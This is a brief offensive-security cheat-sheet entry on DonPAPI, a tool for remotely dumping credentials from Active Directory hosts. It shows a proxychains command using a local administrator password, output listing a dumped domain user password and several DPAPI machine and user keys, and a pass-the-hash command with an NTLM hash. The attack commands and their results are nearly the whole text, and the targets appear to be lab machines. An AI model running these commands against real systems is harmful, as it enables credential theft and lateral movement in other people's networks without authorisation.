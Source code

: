 # DonPapi

* DonPapi is a tool used to remotely dump credentials from an AD enviroment&#x20;

```
proxychains python3 DonPAPI.py -local_auth Administrator:fbkj8deR@10.10.121.107
INFO [10.10.121.107]  [+] Dumping LSA Secrets
INFO [10.10.121.107] [+]  LSA :  testlab.local\epugh : Passwrd2017123 
INFO [10.10.121.107] [-] Found DPAPI Machine key : 0x7128b9eca864ea503bb1efb50ce803588dcf9662
INFO [10.10.121.107] [-] Found DPAPI User key : 0x4f2b5c6dff20964ecf76b8015d860968f7035ce2
INFO [10.10.121.107] [-] Found DPAPI Machine key : 0x6dafe0bdd0b11149bb70926ec96fbd3262b26928
INFO [10.10.121.107] [-] Found DPAPI User key : 0x8adecef5c32354a2dbfd1f640876f251c5e8688b
```

### DonPapi Pass the Hash PTH

```
DonPAPI --hashes aad3b435b51404eeaad3b435b51404ee:4c827b7074e99eefd49d05872185f7f8 Administrator@172.16.2.5
```
